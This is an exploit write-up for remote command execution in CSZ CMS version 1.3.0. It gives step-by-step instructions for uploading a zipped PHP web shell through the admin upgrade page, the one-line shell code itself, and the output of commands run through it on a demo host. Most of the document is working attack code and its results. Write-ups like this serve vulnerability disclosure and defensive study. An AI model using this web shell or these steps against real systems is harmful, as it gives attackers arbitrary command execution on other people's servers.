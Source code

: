 # CSZ_CMS
CSZ CMS Version 1.3.0 Remote Command Execution
# Exploit Title: CSZ CMS Version 1.3.0 Remote Command Execution
# Date: 23/11/2023
# Exploit Author: tmrswrr
# Vendor Homepage: https://www.cszcms.com/
# Software Link: https://www.cszcms.com/link/3#https://sourceforge.net/projects/cszcms/files/latest/download
# Version: Version 1.3.0
# Tested on: https://www.softaculous.com/apps/cms/CSZ_CMS

## Steps to Reproduce:

1) Enter the admin panel and go to this URL: https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/admin/upgrade

2) Create a zip file using the command:
   ```bash
   zip poc.zip poc.php
<?php echo "<pre>";system($_REQUEST['cmd']);echo "</pre>"?>
https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=id

uid=1000(soft) gid=1000(soft) groups=1000(soft)

https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=ls

CHANGELOG
CONTRIBUTING.md
LICENSE.md
README.md
SECURITY.md
a.php
assets
cache.config.inc.php
config.inc.php
config_example.inc.php
corecss.css
corejs.js
cszcms
devtoolsbar.config.inc.php
env.config.inc.php
htaccess.config.inc.php
index.php
install
memcached.config.inc.php
nginx_example.com.conf
photo
poc.php
proxy.inc.php
redis.config.inc.php
system
templates
test.php
